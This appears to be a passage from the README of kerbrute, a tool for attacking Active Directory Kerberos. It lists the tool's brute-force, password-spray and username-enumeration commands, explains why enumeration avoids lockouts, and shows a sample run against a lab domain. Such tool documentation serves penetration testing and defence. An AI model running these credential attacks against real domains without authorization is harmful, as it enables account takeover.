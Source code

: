 ```

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string          The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int          Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string      The full domain to use (e.g. contoso.com)
      --downgrade          Force downgraded encryption type (arcfour-hmac-md5)
      --hash-file string   File to save AS-REP hashes to (if any captured), otherwise just logged
  -h, --help               help for kerbrute
  -o, --output string      File to write logs to. Optional.
      --safe               Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int        Threads to use (default 10)
  -v, --verbose            Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### User Enumeration
To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) if Kerberos logging is enabled.

```
root@kali:~# ./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:28:04 >  Using KDC(s):
2019/03/06 21:28:04 >   pdc01.lab.ropnop.com:88

2019/03/06 21:28:04 >  [+] VALID USERNAME:       amata@lab.ropnop.com
2019/03/06 21:28:04 >  [+] VALID USERNAME:       thoffman@lab.ropnop.com
2019/03/06 21:28:04 >  Done! Tested 1001 usernames (2 valid) in 0.425 seconds
```

